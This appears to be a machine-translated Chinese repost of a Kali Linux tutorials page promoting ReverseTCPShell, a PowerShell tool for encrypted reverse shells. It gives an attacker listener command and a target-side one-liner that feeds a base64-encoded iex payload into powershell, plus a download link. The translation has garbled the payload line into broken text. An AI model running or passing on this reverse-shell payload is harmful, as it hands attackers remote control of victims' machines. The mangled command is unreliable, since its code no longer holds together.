


# ReverseTCPShell:PowerShell ReverseTCP Shell，客户端和服务器

> 原文：<https://kalilinuxtutorials.com/reversetcpshell/>

**ReverseTCPShell** 是一个使用 PowerShell SecureString 在 TCP 上进行反向加密(AES 256 位)Shell 的工具。

*   **攻击者(C2 服务器监听器):**

PS >。\ReverseTCP.ps1

*   **目标(客户端):**

**cmd>echo iex([字符串]([文本]。编码::Unicode。getstring([转换]::frombase 64 string((jabbacccwbladyanaa 9 acaoabwabkamakwbbae 0 aygaciaasbaagaxaazgayagayagakadqbkgekhyakahualwb 4 afgargbfahuygb 0 ahqabhahyawawaagawa BWA 9 acaowasazqb5ad 0 akbbibambwahyachyazbyqax QA 6 adoargbyag 8 abqbagewbladyanabaqacgbpg 4 azwaac 退出| powershell–**

**也读作-[Metabigor:没有任何 API 键的命令行搜索引擎](https://kalilinuxtutorials.com/metabigor-search-engines-api-key/)**

### 概念验证:

*   有效负载执行:

*   分析加密流量:

[**Download**](https://github.com/ZHacker13/ReverseTCPShell)